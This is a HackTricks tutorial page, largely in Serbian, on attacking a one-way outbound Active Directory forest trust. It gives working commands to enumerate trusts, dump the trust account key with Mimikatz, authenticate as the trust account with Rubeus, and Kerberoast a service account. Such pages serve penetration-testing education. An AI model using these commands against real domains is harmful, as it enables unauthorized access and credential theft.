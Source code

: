 # Eksterni Forest Domen - Jednosmerno (Izlazno)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

U ovom scenariju **vaš domen** **priznaje** neke **privilegije** glavnom iz **drugih domena**.

## Enumeracija

### Izlazno poverenje
```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```
## Trust Account Attack

Postoji sigurnosna ranjivost kada se uspostavi odnos poverenja između dva domena, ovde identifikovana kao domen **A** i domen **B**, gde domen **B** proširuje svoje poverenje na domen **A**. U ovoj postavci, posebni nalog se kreira u domenu **A** za domen **B**, koji igra ključnu ulogu u procesu autentifikacije između dva domena. Ovaj nalog, povezan sa domenom **B**, koristi se za enkripciju karata za pristup uslugama između domena.

Ključni aspekt koji treba razumeti ovde je da se lozinka i hash ovog posebnog naloga mogu izvući iz kontrolera domena u domenu **A** koristeći alat iz komandne linije. Komanda za izvršavanje ove radnje je:
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```
Ova ekstrakcija je moguća jer je nalog, identifikovan sa **$** nakon svog imena, aktivan i pripada grupi "Domain Users" domena **A**, čime nasleđuje dozvole povezane sa ovom grupom. To omogućava pojedincima da se autentifikuju protiv domena **A** koristeći akreditive ovog naloga.

**Upozorenje:** Moguće je iskoristiti ovu situaciju da se dobije pristup u domen **A** kao korisnik, iako sa ograničenim dozvolama. Međutim, ovaj pristup je dovoljan za izvođenje enumeracije na domenu **A**.

U scenariju gde je `ext.local` poveravajući domen, a `root.local` je povereni domen, korisnički nalog nazvan `EXT$` biće kreiran unutar `root.local`. Kroz specifične alate, moguće je izvući Kerberos ključeve poverenja, otkrivajući akreditive `EXT$` u `root.local`. Komanda za postizanje ovoga je:
```bash
lsadump::trust /patch
```
Следећи ово, могло би се користити извучени RC4 кључ за аутентификацију као `root.local\EXT$` унутар `root.local` користећи команду другог алата:
```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```
Ovaj korak autentifikacije otvara mogućnost za enumeraciju i čak eksploataciju usluga unutar `root.local`, kao što je izvođenje Kerberoast napada za ekstrakciju kredencijala servisnog naloga koristeći:
```bash
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```
### Prikupljanje lozinke poverenja u čistom tekstu

U prethodnom toku korišćen je hash poverenja umesto **lozinke u čistom tekstu** (koja je takođe **izvučena pomoću mimikatz**).

Lozinka u čistom tekstu može se dobiti konvertovanjem \[ CLEAR ] izlaza iz mimikatz iz heksadecimalnog formata i uklanjanjem null bajtova ‘\x00’:

![](<../../.gitbook/assets/image (938).png>)

Ponekad, prilikom kreiranja odnosa poverenja, korisnik mora da unese lozinku za poverenje. U ovoj demonstraciji, ključ je originalna lozinka poverenja i stoga je čitljiva za ljude. Kako se ključ menja (svakih 30 dana), lozinka u čistom tekstu neće biti čitljiva za ljude, ali će tehnički i dalje biti upotrebljiva.

Lozinka u čistom tekstu može se koristiti za obavljanje redovne autentifikacije kao račun poverenja, što je alternativa traženju TGT-a koristeći Kerberos tajni ključ računa poverenja. Ovde se upit vrši na root.local iz ext.local za članove Domain Admins:

![](<../../.gitbook/assets/image (792).png>)

## Reference

* [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
